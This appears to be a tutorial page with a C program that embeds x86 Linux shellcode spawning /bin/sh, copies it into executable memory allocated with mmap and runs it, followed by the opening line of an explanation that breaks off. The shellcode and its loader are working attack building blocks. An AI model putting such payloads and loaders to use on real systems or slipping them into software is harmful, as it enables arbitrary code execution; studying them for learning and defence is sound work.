 
### **C Code Example**
```c
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

// Example shellcode to spawn a shell (/bin/sh)
unsigned char shellcode[] = 
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

// Function to execute shellcode
void execute_shellcode(unsigned char *shellcode, size_t size) {
    // Allocate executable memory for the shellcode
    void *mem = mmap(NULL, size, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (mem == MAP_FAILED) {
        perror("mmap failed");
        return;
    }

    // Copy the shellcode into the allocated memory
    memcpy(mem, shellcode, size);

    // Cast the memory to a function pointer and execute it
    void (*func)() = (void (*)())mem;
    func();

    // Clean up allocated memory
    munmap(mem, size);
}

int main() {
    // Print the shellcode in hexadecimal format
    printf("Shellcode: ");
    for (size_t i = 0; i < sizeof(shellcode) - 1; i++) {
        printf("\\x%02x", shellcode[i]);
    }
    printf("\n");

    // Execute the shellcode
    execute_shellcode(shellcode, sizeof(shellcode) - 1);

    return 0;
}
```

#### **Detailed Explanation of the C Code**

This C code demonstrates how to execute a simple shellcode that spawns a shell (`/bin/sh`) on a Linux system. Here’s a step-by-step breakdown of the code:
